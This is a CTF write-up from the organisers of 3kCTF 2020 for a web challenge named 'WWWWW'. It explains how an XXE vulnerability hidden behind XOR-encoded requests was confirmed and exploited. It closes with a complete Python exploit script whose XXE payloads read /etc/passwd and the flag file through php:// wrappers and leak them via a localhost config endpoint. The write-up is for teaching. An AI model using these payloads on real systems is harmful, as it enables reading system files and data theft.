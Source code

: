 ```yaml
---
layout: post
title: WWWWW
category: 3kCTF 2020
---
```


On July 24th we hosted the 3k international CTF, we tried to make it a good quality CTF as much as possible, we also tried not to make the challenge mostly guessable
, thats why as challenge includes a recon technique ( brute-forcing dirs/files) ,we added note that the task is kind of bounty challenge :)


To begin , the first steps were not that hard to find the vulnerability which was XXE but was a bit hard to exploit :) I will discuss this in my write up.


The usual steps when checking out a web challenge or even when trying to find bugs in a website that we have never used is to check all possible functions at least on the main domain.


At the first check, we get an idea of what the website is!

![index](https://user-images.githubusercontent.com/7364615/88489371-2fa9fb80-cf94-11ea-86d0-1386be5d49d9.png)

Checking out each function and using burp to log all possible queries during that time, we found an interesting request that was triggered.

![api](https://user-images.githubusercontent.com/7364615/88489526-03db4580-cf95-11ea-8325-40a547d825b9.png)

We tried to decode the base64 data that was sent by it was not only encoded thats why we got garbage data. we get back to the source code page to check where the `api.php` is used ,but we just found some obfuscated javascript code.

![js](https://user-images.githubusercontent.com/7364615/88489581-5288df80-cf95-11ea-889a-94734ed431b8.png)

We tried to deobfuscate it, but that was the worst option, it will take some time so the best solution will be to use `chrome devtools` and debug the code directly and check what is going on in our data!


Simply putting a breakpoint right after extracting the value of `email` line.

![bp](https://user-images.githubusercontent.com/7364615/88489835-38e89780-cf97-11ea-8c07-c688a7cd2867.png)

Continuing to track the functions called just before the final base64 data, we found that it was just xoring the email that was injected into a hardcoded XML document , where the key : `hSuuzuKdkvJeWgjW`

![xor](https://user-images.githubusercontent.com/7364615/88489906-e8be0500-cf97-11ea-9dbe-fc7d41de3910.png)

As we understand what the app was doing in the background, we can write simple code or just edit the XML each time using devtools.


First, to confirm that there is an XML external entity vulnerability, we can xor and encode our own payload directly without going through the javascript used on the application.


To confirm that we have XXE here, we just tried a simple payload, but as `api.php` just returns` {" result ":" ok "}` if the xml parse pass and` {"result": " error "}` if not.


and also after trying to include external url to verify pingback, we found that there was no request even a simple DNS request. So how can we confirm that we have XXE ?!


Easy, just use external url and local url to check (same as time based SQL injection :D)

![xxe](https://user-images.githubusercontent.com/7364615/88490135-a3023c00-cf99-11ea-822b-63be9052c210.png)

After encoding the url and sending these two payloads separately, we found that the payload that requests an external url takes a long time compared to the one that requests localhost which confirms that we have XXE in our case.


So as its bug bounty style based challenge, here we can ask our best friend `dirsearch` tool and he will tell us what to do :D

![dir](https://user-images.githubusercontent.com/7364615/88490248-8581a200-cf9a-11ea-8514-51519937ff70.png)

And yes :), we just got a cool output that includes results that we still haven't verified!


Digging a little deeper into the result, we found an endpoint that can be used to dump information about hotel and restaurant locations, but the most interesting part was this.

![file](https://user-images.githubusercontent.com/7364615/88490293-f628be80-cf9a-11ea-88a4-7d5e488e0ec7.png)

There was another file, visiting it it will come out

```
{"msg":"sid=mfI1xkAsOdZzHCoFTcJY8eNtiE5h4Ru0","read":"\/define.php?sid=mfI1xkAsOdZzHCoFTcJY8eNtiE5h4Ru0","write":"\/define.php?sid=mfI1xkAsOdZzHCoFTcJY8eNtiE5h4Ru0&key=test&value=test"}
```


By checking and trying multiple attempts we confirm two results, we can either dump our config settings or change them as needed, but we should use our sid in each request which looks like a sessionid value


For example, to update current values, we can just request `http://wwwweb.3k.ctf.to/define.php?sid=mfI1xkAsOdZzHCoFTcJY8eNtiE5h4Ru0&key=test&value=test` and then `http://wwwweb.3k.ctf.to/define.php?sid=mfI1xkAsOdZzHCoFTcJY8eNtiE5h4Ru0` to confirm the update


Thinking about how to use this feature like a weapon, we can just make this endpoint which can be reached from localhost too as store file, so as we need in the normal exploit a External DTD but in this case there was no outgoing port open, using a php wrapper which should be supported in this case to return our DTD content as if it had been loaded from the outside. 

![sploit](https://user-images.githubusercontent.com/7364615/88490744-232aa080-cf9e-11ea-896c-0720b962fdee.png)

```
import requests
import base64
import json
from pwn import *

s = requests.Session()
key_xor = "hSuuzuKdkvJeWgjW"

def getsid():
    response = s.get('http://wwwweb.3k.ctf.to/define.php')
    return response.json()['msg'][4:]

def getdata(sid):
    response = s.get('http://wwwweb.3k.ctf.to/define.php?sid='+sid)
    return response.text

def testchange(sid):
    response = s.get('http://wwwweb.3k.ctf.to/define.php?sid='+sid+'&key=test&value=test')
    return response.text

def sendpayload(sid,payload):
  url = "http://wwwweb.3k.ctf.to/api.php"
  header = {"Content-type": "application/x-www-form-urlencoded", "Accept": "*/*", "Origin": "http://wwwweb.3k.ctf.to", "Accept-Encoding": "gzip, deflate", "Accept-Language": "en-GB,en-US;q=0.9,en;q=0.8", "dnt": "1", "Connection": "close"}
  response = requests.post(url, headers=header, data=payload)

def create_pay(key,dtd):
  return {"xml": b64e(xor("<!DOCTYPE r [\r\n  <!ELEMENT r ANY >\r\n  <!ENTITY % sp SYSTEM \"php://filter//resource=data://text/plain;base64,"+base64.b64encode(dtd)+"\"> %sp; %param1;\r\n]>\r\n<subscribe><email>&exfil;</email></subscribe>",key))}

sid = getsid()

print "[*] SID : "+sid
print "[*] Default value : "+ getdata(sid)
print "[*] Make small changes to test : "+ testchange(sid)
print "[*] New value : \n"+ getdata(sid)

external_dtd_1 = '<!ENTITY % data SYSTEM "php://filter/convert.base64-encode/resource=file:///etc/passwd"><!ENTITY % param1 \'<!ENTITY exfil SYSTEM "http://localhost/define.php?sid='+sid+'&#38;key=xxe&#38;value=%data;">\'>'
external_dtd_2 = '<!ENTITY % data SYSTEM "php://filter/convert.base64-encode/resource=file:///flag"><!ENTITY % param1 \'<!ENTITY exfil SYSTEM "http://localhost/define.php?sid='+sid+'&#38;key=xxe&#38;value=%data;">\'>'

print "[*] Send payload 1 \n"
sendpayload(sid,create_pay(key_xor,external_dtd_1))
out = json.loads(getdata(sid))['value']
print "[*] Output file: \n"+ base64.b64decode(out)

print "[*] Send payload 1 \n"
sendpayload(sid,create_pay(key_xor,external_dtd_2))
out = json.loads(getdata(sid))['value']
print "[*] Output file: \n"+ base64.b64decode(out)

print "[*] Reset value to prevent leak"
testchange(sid)
```

and the flag was : `3k{cL457rBpVxsJnRXNR9vW6uR4hbKszeFs}`


Thanks for reading, well done `RedRocket` and `WreckTheLine` who were the only two teams to solve the challenge during the CTF.


See you next time :)
